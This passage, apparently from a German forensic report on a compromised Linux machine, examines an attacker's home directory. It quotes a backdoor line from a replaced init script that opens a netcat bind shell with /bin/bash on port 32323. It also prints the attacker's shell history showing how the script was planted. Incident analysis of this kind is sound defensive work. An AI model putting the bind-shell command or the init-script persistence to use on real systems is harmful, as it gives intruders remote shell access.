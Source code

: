 Ein \texttt{ls -lah /home/evil/} zeigt folgende Ausgabe:
\begin{verbatim}
drwxr-xr-x 2 1001 root 4,0K Jan 28  2010 . 
drwxr-xr-x 5 root root 4,0K Jan 28  2010 .. 
-rw------- 1 1001 root  229 Jan 28  2010 .bash_history 
-rw-r--r-- 1 1001 root  220 Mai 12  2008 .bash_logout 
-rw-r--r-- 1 1001 root 3,1K Mai 12  2008 .bashrc 
-rwxr-xr-x 1 1001 root 1,3K Jan 28  2010 bdstart.sh 
-rwxr-xr-x 1 1001 root 1,9K Jan 28  2010 networking 
-rw-r--r-- 1 1001 root  675 Mai 12  2008 .profile
\end{verbatim}

Als erstes wurde die \texttt{networking} Datei näher betrachtet. Hierbei handelt es sich um ein Skript welches wahrscheinlich das Original unter \texttt{/etc/init.d/} ersetzen soll. Sollte dies der Fall sein und das Skript wird mit dem Parameter \texttt{start} aufgerufen, wird folgende Zeile ausgeführt:
\begin{verbatim}
/usr/local/bin/mysudo "/var/www/upload/netcat -nvv -l -e /bin/bash -p 32323"
\end{verbatim}
Diese Zeile führt das Program \texttt{mysudo} aus und öffnet eine \texttt{netcat} Listening Verbindung auf dem Port 32323 welche mit dem Schalter \texttt{-e} nach der Verbindung eine \texttt{bash} Shell öffnet.
\pagebreak Über die \texttt{.bash\_history} kann man die Befehle welche der Benutzer absetzte einsehen:
\begin{verbatim}
ls 
ls -l 
mysudo whoami 
cd /etc/init.d/ 
ls 
touch bdstart.sh 
cd 
cp /etc/init.d/hostname.sh bdstart.sh 
vim bdstart.sh 
cp /etc/init.d/networking . 
vim networking 
mysudo "cp ./networking /etc/init.d/" 
ls -l /etc/init.d/ 
ls -l /etc/
\end{verbatim}
Der Umstand, dass diese ebenfalls von Angreifern modifizierbar ist muss berücksichtigt werden. Manipulationen an dieser Datei sind ist anhand der MAC-Timestamps nicht nachvollziehbar. %